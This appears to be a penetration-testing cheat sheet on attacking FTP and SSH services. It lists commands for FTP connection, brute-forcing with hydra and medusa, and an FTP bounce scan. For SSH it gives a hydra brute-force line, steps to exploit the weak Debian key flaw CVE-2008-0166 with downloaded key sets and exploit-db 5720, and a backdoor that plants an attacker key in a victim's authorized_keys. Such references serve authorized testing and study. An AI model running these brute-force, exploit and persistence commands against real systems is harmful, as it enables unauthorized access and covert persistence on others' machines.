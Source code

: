 ### Attacking FTP

| **Command**                                                                  | **Description**                                              |
| ---------------------------------------------------------------------------- | ------------------------------------------------------------ |
| `ftp 192.168.2.142`                                                          | Connecting to the FTP server using the `ftp` client.         |
| `nc -v 192.168.2.142 21`                                                     | Connecting to the FTP server using `netcat`.                 |
| `hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142`     | Brute-forcing the FTP service.                               |
| `medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp` | Brute Forcing with Medusa                                    |
| `nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2`         | The Nmap -b flag can be used to perform an FTP bounce attack |

## SSH - 22

### Bruteforce

```
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
```

### CVE-2008-0166

```
All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.

https://www.exploit-db.com/exploits/5720

wget https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_dsa_1024_x86.tar.bz2

bunzip2 debian_ssh_rsa_2048_x86.tar.bz2 debian_ssh_dsa_1024_x86.tar.bz2
tar -xvf debian_ssh_rsa_2048_x86.tar
tar -xvf debian_ssh_dsa_1024_x86.tar

python 5720 rsa/2048 <IP> <USER> <PORT> <THREADS>
python 5720 dsa/1024 <IP> <USER> <PORT> <THREADS>
```

### SSH backdoor post exploitation

```
# Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
```
